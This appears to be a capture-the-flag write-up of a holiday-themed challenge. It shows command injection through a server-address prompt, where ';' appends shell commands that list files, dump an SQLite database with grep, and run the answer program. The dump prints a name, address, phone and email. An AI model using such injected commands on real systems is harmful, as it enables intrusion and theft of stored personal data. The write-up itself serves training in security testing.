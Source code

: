 Selecting `2 to verify the system` and giving a random IP address, we see the
system leaks a bit of information about the name of the underlying database (SQLite, version 3.x, db name is onboard.db)

```
Validating data store for employee onboard information.
Enter address of server: 1.2.3.4
connect: Network is unreachable
onboard.db: SQLite 3.x database
Press Enter to continue...: 
```

Using the `;`, we find that we can inject commands into the system as well and
we discover the database sits as `/home/elf/onboard.db`.

```
Validating data store for employee onboard information.
Enter address of server: 1.2.3.4; pwd; ls
connect: Network is unreachable
/home/elf
menu.ps1  onboard.db  runtoanswer
onboard.db: SQLite 3.x database
Press Enter to continue...: 
```

With this knowledge, we can use the database dump hint we got to dump the
`onboard.db` to get the name of the elf is.. "Scott".

```
Validating data store for employee onboard information.
Enter address of server: 1.2.3.4; sqlite3 onboard.db .dump | grep Chan
connect: Network is unreachable
INSERT INTO "onboard" VALUES(84,'Scott','Chan','48 Colorado Way',NULL,'Los Angeles','90067',
'4017533509','scottmchan90067@gmail.com');
onboard.db: SQLite 3.x database
Press Enter to continue...: 
```

While enumerating, we also saw there was a file called `runtoanswer` in the home
directory.. let's see if that is how we submit the answer?

```
Validating data store for employee onboard information.
Enter address of server: 1.2.3.4; runtoanswer
connect: Network is unreachable
Loading, please wait......
Enter Mr. Chan's first name: Scott

                                                                               
    .;looooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooool:'    
  'ooooooooooookOOooooxOOdodOOOOOOOdoxOOdoooooOOkoooooooxO000Okdooooooooooooo;  
 'oooooooooooooXMWooooOMMxodMMNKKKKxoOMMxoooooWMXoooookNMWK0KNMWOooooooooooooo; 
 :oooooooooooooXMWooooOMMxodMM0ooooooOMMxoooooWMXooooxMMKoooooKMMkooooooooooooo 
 coooooooooooooXMMMMMMMMMxodMMWWWW0ooOMMxoooooWMXooooOMMkoooookMM0ooooooooooooo 
 coooooooooooooXMWdddd0MMxodMM0ddddooOMMxoooooWMXooooOMMOoooooOMMkooooooooooooo 
 coooooooooooooXMWooooOMMxodMMKxxxxdoOMMOkkkxoWMXkkkkdXMW0xxk0MMKoooooooooooooo 
 cooooooooooooo0NXooookNNdodXNNNNNNkokNNNNNNOoKNNNNNXookKNNWNXKxooooooooooooooo 
 cooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo 
 cooooooooooooooooooooooooooooooooooMYcNAMEcISooooooooooooooooooooooooooooooooo
 cddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddo 
 OMMMMMMMMMMMMMMMNXXWMMMMMMMNXXWMMMMMMWXKXWMMMMWWWWWWWWWMWWWWWWWWWMMMMMMMMMMMMW 
 OMMMMMMMMMMMMW:  .. ;MMMk'     .NMX:.  .  .lWO         d         xMMMMMMMMMMMW 
 OMMMMMMMMMMMMo  OMMWXMMl  lNMMNxWK  ,XMMMO  .MMMM. .MMMMMMM, .MMMMMMMMMMMMMMMW 
 OMMMMMMMMMMMMX.  .cOWMN  'MMMMMMM;  WMMMMMc  KMMM. .MMMMMMM, .MMMMMMMMMMMMMMMW 
 OMMMMMMMMMMMMMMKo,   KN  ,MMMMMMM,  WMMMMMc  KMMM. .MMMMMMM, .MMMMMMMMMMMMMMMW 
 OMMMMMMMMMMMMKNMMMO  oM,  dWMMWOWk  cWMMMO  ,MMMM. .MMMMMMM, .MMMMMMMMMMMMMMMW 
 OMMMMMMMMMMMMc ...  cWMWl.  .. .NMk.  ..  .oMMMMM. .MMMMMMM, .MMMMMMMMMMMMMMMW 
 xXXXXXXXXXXXXXKOxk0XXXXXXX0kkkKXXXXXKOkxkKXXXXXXXKOKXXXXXXXKO0XXXXXXXXXXXXXXXK 
```